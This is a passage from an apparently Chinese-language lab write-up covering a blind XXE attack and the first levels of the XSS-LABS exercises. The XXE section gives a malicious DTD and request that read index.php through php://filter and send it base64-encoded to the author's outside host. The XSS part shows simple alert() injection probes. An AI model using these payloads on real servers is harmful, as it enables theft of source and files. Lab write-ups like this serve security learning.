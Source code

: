仍然成功。

## BindXXE

服务器上创建evil.dtd:

```xml-dtd
<!ENTITY % all
    "<!ENTITY &#x25; send SYSTEM 'http://blog.evalexp.top/?data=%file;'>"
>
%all;
```

接着发送：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE updateProfile [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./index.php">
    <!ENTITY % dtd SYSTEM "https://blog.evalexp.top/evil.dtd">
    %dtd;
    %send;
]>

<user><username>admin</username><password>admin</password>
```

一发入魂：

![image-20220327134402472](./image-20220327134402472.png)

![image-20220327134511491](./image-20220327134511491.png)

# XSS-LABS

## Level 1

没有防护，直接注入：

```http
name=<script>alert(%27xss%27);</script>
```

## Level 2

直接注入`<script>alert('xss');</script>`。响应如图：

![image-20220327135501043](./image-20220327135501043.png)

审查一下返回的响应：

```html
<h2 align=center>没有找到和&lt;script&gt;alert('xss');&lt;/script&gt;相关的结果.</h2><center>
```
